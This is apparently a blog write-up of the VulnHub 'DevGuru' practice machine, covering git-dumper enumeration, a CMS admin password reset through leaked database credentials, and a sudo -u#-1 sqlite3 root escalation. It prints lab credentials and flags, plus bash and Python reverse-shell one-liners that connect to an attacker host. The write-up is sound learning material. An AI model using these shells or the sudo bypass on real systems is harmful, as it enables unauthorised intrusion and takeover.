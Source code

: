 ```yaml
---
title: Devguru
categories: [VulnHub]
tags: [CMS, PrivEsc, Public Exploit, git, gitea, Password Generate, sudo exploit]
image:
  path: https://guyintheclouds.com/banner/devguru-vulnhub.png
  alt: Devguru Machine 📚
---
```


## **Description ⤵️**


💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.

OSCP like ~ Real life based

**Difficulty:** Intermediate (Depends on experience)



### **Let’s find the IP Address first >>**

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```
{: .nolineno}

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```
{: .nolineno}

---

## Web Enumeration ⤵️

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory traversal files / directories →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```
{: .nolineno}

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now I knew that the password can be changed and what its type so lets insert password as `password` →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

after replacing the password and saving It Loged in with `frank → password` →

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```
{: .nolineno}

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](http://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```
{: .nolineno}

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
**`sudo** -u#-1 **/**usr**/**bin**/**sqlite3 **/**dev**/**null '.shell /bin/bash`
```
{: .nolineno}

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```
{: .nolineno}

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

<hr>

# **Summery Notes →**

1. Git enumeration with git-dumper and executing the reverse shell was on good path.
2. I enjoyed the swaping of the password method from mysql .
3. I got to know about october CMS and its reverse shell code .
4. Also about the sudo vulnerability part ←

**october CMS reverse shell code -->**

**`function** onstart()**{**    **exec(**"/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'"**);}**`

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}

**root →**

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```
{: .nolineno}

<hr>